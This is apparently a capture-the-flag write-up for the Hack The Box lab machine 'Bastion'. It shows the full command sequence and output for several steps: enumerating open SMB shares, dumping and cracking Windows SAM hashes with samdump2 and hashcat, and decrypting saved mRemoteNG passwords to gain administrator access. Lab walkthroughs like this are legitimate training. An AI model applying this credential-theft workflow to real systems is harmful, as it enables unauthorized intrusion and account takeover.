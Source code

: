 +++
title = "Hack The Box: Bastion"
date = "2019-09-06"
author = ""
tags = ["HTB", "SMB", "SAM", "John", "mRemoteNG"]
keywords = ["", ""]
description = ""
showFullContent = false
cover = "/img/bastion/info_card.png"
+++


# Summary

Bastion was a relatively easy box. There is an smb share is accessible without credentials and inside there is a backup drive that we can mount and access. From the drive we can dump the SAM file and crack it to get login credentials. Once logged in we find mRemoteNG installed and extract its saved passwords to get admin access. 

# Enumeration

I start with this nmap command to quickly find open ports.
```sh
nmap -sS -p- --min-rate=1000 10.10.10.134

Nmap scan report for 10.10.10.134
Host is up (0.23s latency).
Not shown: 65522 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
```

Then run a thorough service scan on the discovered ports.

```sh
nmap -sC -sV -p 22,135,139,445,5985,47001 -oA nmap/bastion 10.10.10.134

Nmap scan report for 10.10.10.134
Host is up (0.22s latency).

PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -42m39s, deviation: 1h09m15s, median: -2m40s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-09-06T13:28:45+02:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-09-06 12:28:49
|_  start_date: 2019-09-06 11:58:13

```
## SMB

Based on the open ports the best service to check out first is smb.

```sh
smbmap -H 10.10.10.134 -u ' '

[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.134...
[+] IP: 10.10.10.134:445        Name: 10.10.10.134
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  NO ACCESS
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS
        IPC$                                                    READ ONLY
```
After running smbmap, I discover a share called Backups that I have read and write permissions as a guest user.

Since this is a windows machine I will switch to my windows vm to make my work easier.

{{< image src="/img/bastion/backup_share.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

<br>

Contents of note.txt

*Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.*

Going deeper into the WindowsImageBackup folder I found a backup image which is quite big. Downloading the whole file would not be an option as the note.txt suggested. Fortunately I can mount it through the share remotely, this is the reason why I wanted to use a windows vm.

{{< image src="/img/bastion/backup_share_2.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

<br>

On mounting it, it appears as Local Disk (D:). After accessing the home directory of user L4mpje and looking through the folders there was no user.txt, it must have been excluded from the backup.

{{< image src="/img/bastion/backup_share_3.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

At this stage I was stuck for a while (I still suck at owning windows) and after some hints in the forum I figured I should look at where credentials are stored locally on windows and how to get them. Simply the equivalent of /etc/shadow or /etc/passwd on linux.

I learnt that I should be looking in C:\windows\system32\config for the SAM and SYSTEM files which I found.

{{< image src="/img/bastion/backup_share_4.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

##### Now to get the credentials!

I pulled the 2 files back to my kali box and using samdump2 I got the user hash.

```sh
samdump2 SYSTEM SAM

*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
I then cracked the NTLM hash for L4mpje using hashcat and got the password.

```sh
hashcat -m 1000 -a 0 26112010952d963c8dc4217daec986d9 /usr/share/wordlists/rockyou.txt --force

26112010952d963c8dc4217daec986d9:bureaulampje
```
# Exploitation

Now that I have a username and password I can login through ssh.

{{< image src="/img/bastion/bastion_5.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

Now that user is owned, let's try to escalate privileges to admin.

I switched to powershell and started looking at installed programs. mRemoteNG isn't a default windows application so let me look into it and if it can help in privesc.

{{< image src="/img/bastion/bastion_6.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

<br>

According to their website:

*mRemoteNG is a fork of mRemote: an open source, tabbed, multi-protocol, remote connections manager.*

I found a metasploit module that claims to extract saved passwords from mRemoteNG. Since I am logged in I don't need metasploit so I looked at the source to see how it extracts the passwords and decrypts them.

The saved passwords are located in AppData in mRemoteNG\confCons.xml. Once I found the file the admin password was there but encrypted.

{{< image src="/img/bastion/bastion_7.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

I was able to find a script on github to decrypt the password.

```sh
./mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==

Password: thXLHM96BeKL0ER2
```
I can finally login as administrator and own system!

{{< image src="/img/bastion/bastion_8.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

# References

- [mremoteng_decrypt.py](https://github.com/haseebT/mRemoteNG-Decrypt/blob/master/mremoteng_decrypt.py)
- [mremote metasploit module](https://vulners.com/metasploit/MSF:POST/WINDOWS/GATHER/CREDENTIALS/MREMOTE/)
